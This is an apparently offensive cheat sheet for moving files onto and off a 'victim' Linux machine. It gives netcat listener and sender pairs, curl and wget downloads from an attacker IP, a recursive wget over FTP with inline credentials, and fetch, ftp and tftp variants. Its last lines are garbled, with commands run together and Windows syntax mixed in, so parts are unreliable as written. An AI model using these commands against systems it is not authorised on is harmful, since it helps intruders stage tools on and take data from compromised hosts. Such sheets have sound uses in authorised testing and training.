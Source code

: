 # File Transfer Linux

<b>Netcat:</b>

	On Victim machine (client):

	nc -nlvp 4444 > <[FILE]>

	On Attacker machine (server):

	nc -nv 10.11.17.9 4444 < <[FILE_TO_SEND]>

<b>Curl:</b>

	curl -O http://<[IP]>/<[FILE]>
	
<b>Wget:</b>

	wget http://<[IP]>/<[FILE]>
	
<b>Recursive wget ftp download:</b>

	wget -r ftp://<[USER]>:<[PASSWORD]>@<[DOMAIN]>

wget http://IP_ADDR/file -O /path/to/where/you/want/file/to/go

curl http://IP_ADDR/file

fetch http://IP_ADDR/filenc IP_ADDR PORT > OUTFILE (run 

nc -lvp PORT < infile on attacking machine)ftp -s:input.txt

tftp -i get file /path/on/victim

